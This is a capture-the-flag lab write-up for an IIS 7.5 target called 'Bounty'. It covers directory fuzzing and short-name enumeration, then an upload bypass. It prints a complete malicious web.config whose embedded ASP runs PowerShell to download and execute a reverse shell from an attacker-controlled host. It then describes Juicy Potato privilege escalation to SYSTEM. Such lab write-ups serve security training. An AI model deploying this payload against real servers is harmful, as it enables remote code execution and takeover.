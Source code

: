 # Bounty

### Reconnaissance

- port 80/tcp HTTP Microsoft IIS httpd 7.5

**Port 80**

A picture of Merlin is hosted on port 80, directory scanning with ffuf shows /uploadedfiles and /aspnet_client
both return 403s

`ffuf -u http://10.10.10.93/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

Searching for IIS enumeration on google brings us to HackTricks, where they mention [an older vulnerability](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#old-iis-vulnerabilities-worth-looking-for)
called Short File/Folder Name Disclosure

We can use the [IIS ShortName Scanner](https://github.com/irsdl/IIS-ShortName-Scanner) to test if the target is vulnerable

`java -jar iis_shortname_scanner.jar 2 20 http://10.10.10.93 config.xml`

The target is vulnerable and the scanner identifies the directories found during our ffuf scan, and 2 other
.asp files

![IIS ShortName Scanner](./pictures/iis-shortname-scanner.png)

We can grep any for any results matching transf in our wordlist, then scan again with ffuf using extensions

```
grep transf /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt >> words.txt
ffuf -u http://10.10.10.93/FUZZ -w words.txt -e .asp,.aspx
```

![Transfer](./pictures/transfer.png)

/transfer.aspx allows us to upload files to the /uploadedfiles directory

Unfortunately we can't just upload an .aspx shell, but [HackTricks mentions executing .config files](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#execute-.config-files)

We can create a web.config file containing a powershell command to download and execute a reverse shell and 
upload it to the target

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set objShell = CreateObject("WScript.Shell")
strCommand = "cmd /c powershell.exe -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10/shell.ps1')"
Set objShellExec = objShell.Exec(strCommand)
WScript.StdOut.Write(strOutput)
WScript.Echo(strOutput)
%>
```

![web.config](./pictures/web.config.png)

Host the shell.ps1 reverse shell ([I just edited a Nishang shell](./shell.ps1)), start a netcat listener and
navigate to /uploadedfiles/web.config to get a reverse shell

![Reverse shell](./pictures/reverse-shell.png)

### Exploitation

The target is running Windows Server 2008 so it will likely bevulnerable to a kernel exploit, also the user 
merlin has SeImpersonatePrivilege enabled so a potato attack will most likely work

We can upload a meterpreter shell and run local_exploit_suggester to show the target is vulnerable to juicy 
potato

![Juicy](./pictures/juicy.png)

Running the exploit gives us a System shell

![System](./pictures/system.png)

### Lessons Learned

- When you see older versions of IIS check for Tilde/Shortname enumeration
